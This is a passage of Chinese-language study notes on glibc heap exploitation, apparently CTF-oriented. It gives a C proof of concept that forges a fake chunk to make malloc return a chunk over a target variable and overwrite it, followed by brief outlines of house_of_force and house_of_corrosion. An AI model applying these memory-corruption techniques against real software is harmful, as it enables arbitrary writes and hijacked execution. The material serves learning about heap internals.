 ```c

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    p = malloc(0xa00000);
    free(p);
    p = malloc(0xa00000);
    free(p); // 使av->system_mem > 0xa00000

    fast = malloc(0x18);
    small = malloc(0x88);
    free(fast);

    gbuf[0] = 0xfffffffffffffff0;
    gbuf[1] = 0x10;
    gbuf[3] = 0x21;
    gbuf[7] = 0x1;

    fake = &gbuf[2];
    *(unsigned long**)fast = fake;

    free(small); // malloc_consolidate

    gbuf[3] = 0xa00001;
    malloc(0xa00000); // fake chunk to large bin
    
    gbuf[3] = 0xfffffffffffffff1; // edit fake chunk size
    malloc((void*)&target - (void*)(gbuf + 2) - 0x20);
    victim = malloc(0x10);
    strcpy(victim, "Hacked!!");

    printf("%s\n", target);
}
```

## house_of_force

- 改写`top_chunk`为一个很大的值。

通过malloc出任意地址达到任意写。想要改写的变量位置在`target`,`top chunk`的位置在`top`,再算上`head`的大小,只需要`malloc`出`target - top - 0x10`个字节(可以为负数,溢出运算).

## house_of_corrosion

- 需要一个堆溢出漏洞.
- 可以分配较大的堆块(size <= 0x3b00).
- 不需要任何泄露.
unsortedbin attack修改global_max_fast之后,通过分配释放特定大小(size = (offset * 2) + 0x20,offset为目标地址与fastbinY(main_arena + 16)的距离)的堆块,可以修改地址位于fastbinY之后的数据.
攻击步骤:堆风水,unsortedbin attack,fake unsorted chunk,改写stderr,触发stderr控制执行流.
